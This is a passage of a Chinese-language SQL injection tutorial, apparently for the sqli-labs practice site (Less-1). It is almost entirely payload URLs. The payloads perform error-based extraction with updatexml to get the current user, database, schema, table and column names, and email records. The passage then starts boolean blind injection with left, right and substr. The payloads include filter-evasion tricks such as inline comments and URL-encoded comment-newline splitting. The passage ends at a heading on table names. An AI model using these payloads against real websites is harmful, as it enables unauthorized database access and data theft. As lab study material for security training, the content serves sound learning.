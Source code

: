 ```
http://172.16.1.157/sql/Less-1/?id=-1' and updatexml(1,concat(0x7e,user(/*!)*/,0x7e/*!)*/,1/*!)*/ -- +
http://172.16.1.157/sql/Less-1/?id=-1' and updatexml(1,concat(0x7e,database(/*!)*/,0x7e/*!)*/,1/*!)*/ -- +
```

库名

```
http://172.16.1.157/sql/Less-1/?id=-1' and updatexml(1,`concat`(0x7e,(select schema_name from %23a%0a information_schema.schemata  limit 1,1/*!)*/,0x7e/*!)*/,1/*!)*/ -- +
```

表名

```
http://172.16.1.157/sql/Less-1/?id=-1' and updatexml(1,`concat`(0x7e,(select table_name from %23a%0a information_schema.tables where table_schema=database(/*!)*/ limit 1,1/*!)*/,0x7e/*!)*/,1/*!)*/ -- +
```

列名

```
http://172.16.1.157/sql/Less-1/?id=-1' and updatexml(1,`concat`(0x7e,(select column_name from %23a%0a information_schema.columns where table_schema=database(/*!)*/ and %23a%0atable_name=0x7573657273 limit 1,1/*!)*/,0x7e/*!)*/,1/*!)*/ -- +
```

查数据

```
http://172.16.1.157/sql/Less-1/?id=-1' and updatexml(1,concat(0x7e,(select email_id from %23a%0a emails limit 1,1/*!)*/,0x7e/*!)*/,1/*!)*/ -- +
```

## 盲注

分布尔盲注和时间盲注来说吧

### 布尔盲注

不让他匹配完整括号对

使用left()或者right()

```
http://172.16.1.157/sql/Less-1/?id=1' and hex(LEFT(user(/*!)*/,1))=%23a%0a72 -- +
http://172.16.1.157/sql/Less-1/?id=1' and hex(right(user(/*!)*/,1))=%23a%0a72 -- +
```

使用substring() substr()

```
http://172.16.1.157/sql/Less-1/?id=1' and hex(SUBSTRING(user(/*!)*/,1,1))=72 -- +
http://172.16.1.157/sql/Less-1/?id=1' and hex(substr(user(/*!)*/,1,1))=72 -- +
```

查表名

